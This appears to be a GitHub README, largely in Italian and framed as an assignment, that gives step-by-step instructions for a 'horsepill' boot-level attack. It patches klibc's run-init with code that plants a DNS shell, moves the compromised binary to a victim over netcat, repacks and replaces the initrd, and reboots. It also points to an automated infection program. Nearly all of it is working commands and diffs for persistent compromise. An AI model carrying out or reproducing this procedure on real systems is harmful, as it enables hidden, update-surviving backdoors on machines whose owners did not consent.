 # Horsepill Payload
_You are requested to produce a payload (using any vector of your choice) that is able to install a DNS shell (see, e.g., [here](https://github.com/sensepost/DNS-Shell)) using the horsepill attack. The payload should survive kernel updates._

## `klibc` patching
Per comodità, creiamo due cartelle di lavoro che consentiranno la creazione del file di _patch_ e la sua applicazione:
```
mkdir /tmp/create
mkdir /tmp/apply
```
### Creazione del file di patch
All'interno della cartella `/tmp/create` scarichiamo il pacchetto sorgente `klibc`:
```
cd /tmp/create
apt-get build-dep klibc && apt-get source klibc
```
assumendo di lavorare con la versione `2.0.7` di `klibc`, eseguiamo:
```
mv klibc-2.0.7 klibc-2.0.7.orig
gunzip -c klibc_2.0.7.orig.tar.gz | tar -x
```
In questo modo si ottengono due directory:
- `klibc-2.0.7.orig`
- `klibc-2.0.7`

entrambe hanno lo stesso contenuto e ciò consentirà di eseguire il `diff` a valle delle modifiche.

Eseguiamo la `clone` del repository Github contenente il file corrente e i payload per l'esecuzione dell'attacco:
```
git clone https://github.com/g3lbin/horsepill.git
```
copiamo i file header e sorgenti presenti in `horsepill/src/` all'interno della cartella da modificare:
```
cp horsepill/src/* klibc-2.0.7/usr/kinit/run-init
```
Utilizzando un editor di testi qualsiasi (e.g. `vim`) modifichiamo i seguenti file:
1. `klibc-2.0.7/usr/kinit/run-init/Kbuild`
```diff
# common .o files
-objs := run-init.o runinitlib.o
+objs := run-init.o runinitlib.o horsepill.o
```
2. `klibc-2.0.7/usr/kinit/run-init/run-init.c`
```diff
#include "run-init.h"
+#include "horsepill.h"

static const char *program;
```
```diff
        char **initargs;
+        cmdline_ptr = (char **)argv;

        /* Variables... */
        int o;
```
3. `klibc-2.0.7/usr/kinit/run-init/runinitlib.c`
```diff
#include "capabilities.h"
+#include "horsepill.h"

/* Make it possible to compile on glibc by including constants that the
```
```diff
        if (!dry_run) {
+                puts("[HORSEPILL] G3LBIN VISITED YOU!\n");
+                sleep(5);
+                do_attack();
                /* Spawn init */
                execv(init, initargs);
                return init;		/* Failed to spawn init */
```
Infine, per creare il file di patch `klibc-horsepill.patch` eseguiamo:
```
diff -u klibc-2.0.7.orig/usr/kinit/run-init/Kbuild klibc-2.0.7/usr/kinit/run-init/Kbuild > klibc-horsepill.patch
diff -u /dev/null klibc-2.0.7/usr/kinit/run-init/dnscat.h >> klibc-horsepill.patch
diff -u /dev/null klibc-2.0.7/usr/kinit/run-init/extractor.h >> klibc-horsepill.patch
diff -u /dev/null klibc-2.0.7/usr/kinit/run-init/infect.h >> klibc-horsepill.patch
diff -u /dev/null klibc-2.0.7/usr/kinit/run-init/horsepill.h >> klibc-horsepill.patch
diff -u /dev/null klibc-2.0.7/usr/kinit/run-init/horsepill.c >> klibc-horsepill.patch
diff -u klibc-2.0.7.orig/usr/kinit/run-init/run-init.c klibc-2.0.7/usr/kinit/run-init/run-init.c >> klibc-horsepill.patch
diff -u klibc-2.0.7.orig/usr/kinit/run-init/runinitlib.c klibc-2.0.7/usr/kinit/run-init/runinitlib.c >> klibc-horsepill.patch
```
### Applicazione della patch
Copiamo il file di patch nell'altro spazio di lavoro e spostiamoci lì dentro:
```
cp klibc-horsepill.patch /tmp/apply
cd /tmp/apply
```
Scarichiamo anche qui il pacchetto sorgente `klibc`:
```
apt-get build-dep klibc && apt-get source klibc
```
Applichiamo la patch:
```
cd klibc-2.0.7
quilt import ../klibc-horsepill.patch
dpkg-buildpackage -j$(nproc) -us -uc
```
Così facendo, viene generato il binario compromesso che consentirà di infettare la vittima: `/tmp/apply/klibc-2.0.7/usr/kinit/run-init/shared/run-init`

## Victim infection
Di seguito è mostrata la procedura manuale per la modifica dell'`initrd`. Tuttavia, questo lavoro può essere svolto in automatico compilando ed eseguendo [`malicious-app.c`](malicious-app.c), come mostrato successivamente.

Per prima cosa è necessario ottenere una shell come `root` e quindi eseguire un exploit per scalare i privilegi. Per la realizzazione di questo attacco si assume che questo lavoro sia già stato eseguito.

Creiamo uno _scratch space_ per lavorare senza sporcare la macchina vittima:
```
unshare -f
```
> **Nota:** Questo permette di eseguire un program in un nuovo namespace e, se invocato senza target, lancia una shell. L'opzione `-f` (`--fork`) permette di forkare la shell come child di `unshare` invece di eseguirla in modo diretto, inoltre, mentre `unshare` è in wait per il child, ignora i segnali `SIGINT` e `SIGTERM` e non li inoltra al child. Quindi eventualmente vanno mandati direttamente al child.

Tutto ciò che viene scritto ora non può essere visto dagli altri processi, dunque montiamo un file system temporaneo sulla directory `/lost+found`:
```
mount -t tmpfs none /lost+found/
cd /lost+found/
```
È comodo creare due cartelle di lavoro che permettano di eseguire l'unpack e il repack dell'initial ramdisk:
```
mkdir tmp
mkdir tmp/extracted
```

### Unpack e modifica di `initrd`
Per copiare l'effettiva immagine del disco da infettare ed estrarne il contenuto, eseguiamo:
```
cp /boot/initrd.img-$(uname -r) tmp/
cd tmp/
unmkinitramfs initrd.img-$(uname -r) ./extracted/
cd extracted/
```
Fatto ciò, è possibile esplorare e modificare il FS `initramfs`.

Dal server attaccante si ottiene il binario compromesso `run-init` sfruttando `netcat`:
- vittima (ip: 192.168.1.151)
```
nc -lvnp 9999 | base64 -d | tar xz
```
- attaccante
```
tar cz run-init | base64 | nc 192.168.1.151 9999
```
Ricevuto il file sulla macchina vittima, possiamo sostituirlo all'originale:
```
mv run-init main/usr/bin/run-init
```
### Repack di `initrd`
Per ricreare l'immagine del disco è necessario ricostruire l'archivio compresso come segue:
1. compressione `early`:
```
cd early/
find . -print0 | cpio --null --create --format=newc > /lost+found/tmp/newinitrd
```
2. compressione `early2`:
```
cd ../early2/
find kernel -print0 | cpio --null --create --format=newc >> /lost+found/tmp/newinitrd
```
3. compressione `main`:
```
cd ../main/
find . | cpio --create --format=newc | lz4 -l -c >> /lost+found/tmp/newinitrd
```
### Sostituzione del disco
È possibile verificare che l'immagine del disco creata venga correttamente interpretata come l'originale:
```
cd /lost+found/tmp/
binwalk initrd.img-$(uname -r)
binwalk newinitrd
```
Se tutto è corretto, si può procedere con la sostituzione e il riavvio:
```
cp newinitrd /boot/initrd.img-$(uname -r)
reboot
```
### Infezione automatizzata
Per evitare l'esecuzione manuale di tutti i passaggi descritti in precedenza, è stato realizzato il programma [`malicious-app.c`](malicious-app.c), che fa esattamente quel lavoro.

In questo caso, sarà sufficiente eseguire:
- vittima (ip: 192.168.1.151)
```
nc -lvnp 9999 | base64 -d | tar xz
```
- attaccante
```
gcc malicious-app.c -o malicious-app
tar cz malicious-app | base64 | nc 192.168.1.151 9999
```
Dopodiché, lato vittima infettiamo `initrd` ed eseguiamo il riavvio:
```
./malicious-app
reboot
```